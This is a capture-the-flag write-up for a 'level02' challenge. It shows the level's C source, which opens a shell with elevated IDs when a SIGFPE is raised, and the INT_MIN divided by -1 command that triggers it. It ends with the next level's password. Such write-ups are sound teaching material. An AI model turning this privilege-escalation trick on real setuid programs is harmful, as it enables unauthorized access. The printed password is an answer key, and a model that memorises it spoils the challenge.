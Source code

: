 Before even running the level02 executable, I took a look at the source code they supply for it.

```c
//a little fun brought to you by bla

#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void catcher(int a)
{
        setresuid(geteuid(),geteuid(),geteuid());
	printf("WIN!\n");
        system("/bin/sh");
        exit(0);
}

int main(int argc, char **argv)
{
	puts("source code is available in level02.c\n");

        if (argc != 3 || !atoi(argv[2]))
                return 1;
        signal(SIGFPE, catcher);
        abs(atoi(argv[1])) / atoi(argv[2]);
}
```

This code seems to give us the euid we want only if the arguments are exactly 3 (so ./level02 x y), the second argument is a number (it will SEGFAULT otherwise), and we cause a Signal Floating Point Exception (SIGFPE) that causes an overflow.

Our only chance to do this seems to be in `abs(atoi(argv[1])) / atoi(argv[2])`.

A division by zero will simply get us to return 1, ending the function immediately. This means we need to find a way to cause a SIGFPE without the second argument being zero.

What I ended up finding in my research was [this StackOverflow](https://stackoverflow.com/questions/46378104/why-does-integer-division-by-1-negative-one-result-in-fpe/46378352).

All we need to do to cause the SIGFPE is take the absolute minimum value of the int datatype minus 1 and make sure it is divided by -1. The command I used was `./level02 -2147483648 -1`.

Password: OlhCmdZKbuzqngfz

